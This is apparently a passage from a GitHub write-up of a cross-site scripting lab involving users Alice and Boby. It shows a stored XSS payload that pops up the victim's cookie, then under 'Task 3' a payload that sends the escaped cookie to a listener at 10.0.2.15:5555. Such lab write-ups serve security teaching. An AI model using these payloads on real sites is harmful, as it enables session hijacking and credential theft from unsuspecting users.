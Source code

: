 <div class="highlight highlight-text-html-basic position-relative overflow-auto"><pre><span class="pl-kos">&lt;</span><span class="pl-ent">script</span><span class="pl-kos">&gt;</span>
  <span class="pl-en">alert</span><span class="pl-kos">(</span><span class="pl-smi">document</span><span class="pl-kos">.</span><span class="pl-c1">cookie</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
<span class="pl-kos">&lt;/</span><span class="pl-ent">script</span><span class="pl-kos">&gt;</span></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<script>
  alert(document.cookie);
</script>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<p dir="auto">When accessing the profile page, it will show the cookie of the log-in user.</p>
<p dir="auto">When Boby opens the page, it will be</p>
<p>Screenshoot in cross-site-scripting Folder</p>
<p dir="auto">For Alice herself:</p>
<p>Screenshoot in cross-site-scripting Folder</p>
<h1 dir="auto"><a id="user-content-task-3" class="anchor" aria-hidden="true" href="#task-3"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a>Task 3</h1>
<p dir="auto">Edit the <code>Brief description</code> as:</p>
<div class="highlight highlight-text-html-basic position-relative overflow-auto"><pre><span class="pl-kos">&lt;</span><span class="pl-ent">script</span><span class="pl-kos">&gt;</span>
  <span class="pl-smi">document</span><span class="pl-kos">.</span><span class="pl-en">write</span><span class="pl-kos">(</span>
    <span class="pl-s">"&lt;img src=http://10.0.2.15:5555?c="</span> <span class="pl-c1">+</span> <span class="pl-en">escape</span><span class="pl-kos">(</span><span class="pl-smi">document</span><span class="pl-kos">.</span><span class="pl-c1">cookie</span><span class="pl-kos">)</span> <span class="pl-c1">+</span> <span class="pl-s">" &gt;"</span>
  <span class="pl-kos">)</span><span class="pl-kos">;</span>
<span class="pl-kos">&lt;/</span><span class="pl-ent">script</span><span class="pl-kos">&gt;</span></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<script>
  document.write(
    &quot;<img src=http://10.0.2.15:5555?c=&quot; + escape(document.cookie) + &quot; >&quot;
  );
</script>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">